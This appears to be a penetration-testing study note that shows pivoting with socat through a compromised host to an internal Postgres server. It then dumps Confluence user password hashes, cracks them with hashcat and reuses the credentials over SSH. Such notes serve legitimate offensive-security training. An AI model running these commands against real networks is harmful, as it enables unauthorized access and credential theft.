 ```yaml
---
layout: post
title: Port Forwarding Socat
titledate: 09/22/23
tags: ["infosec", "info_gathering", "offsec", "tunnel", "socat", "hashcat"]
---
```


#### port forwarding

first we need to copy or install socat on our target machine inside our WAN

we will use socat to set up a listening port on the target machine we have access to in our WAN

  target@reachable:/ socat -ddd TCP-LISTEN:2345,fork TCP:10.4.1.1:5432

because we have connected to our target and run ip to identify another machine (10.4.1.1) running postgres (5432) that it can talk to (DMZ) but we cannot, we will execute the command above 

this tells socat that it will listen on the target machine on port 2345 and forward any received connections to port 5432 as a new process

now on our attacking machine we attempt a psql login as postgres to the target

  $ psql -h 192.168.1.1 -p 2345 -U postgres

and it gets forwarded to the DMZ machine running postgres

  postgres=# \l

list available databases

  postgres=# \c confluence

connect to confluence database

  postgres=# \dt

display tables in the database

  postgres=# select * from cwd_user;

display all contents of the cwd_user table

this table contains all of the users and passwords for confluence

we can store the hashes in a txt file to crack with hashcat on our kali machine

  $ hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt

12001 is the hashcat mode for confluence

#### leveraging cracked passwords

if we discover a password from the above confluence database, we can try to see if there are any other services running on that server like ssh

if so, we can do the same setup as before but bind our socat to a different port

  target@reachable:/ socat TCP-LISTEN:2222,fork TCP:10.1.1.215:22

here because the target machine we can reach inside our WAN isn't running anything on port 2222 we bind that listening port and forward incoming connections to our DMZ system that is running postgres and ssh on port 22

  $ ssh database_admin@192.168.50.63 -p2222

on our linux machine we can attempt to utilize the credentials we discovered in the confluence table hack to see if we are able to ssh into the DMZ system running ssh, we provide port 2222 because that is what is listening on the confluence machine

### other port forwarding options, rinetd, netcat and FIFO named pipe file, iptables with root privs
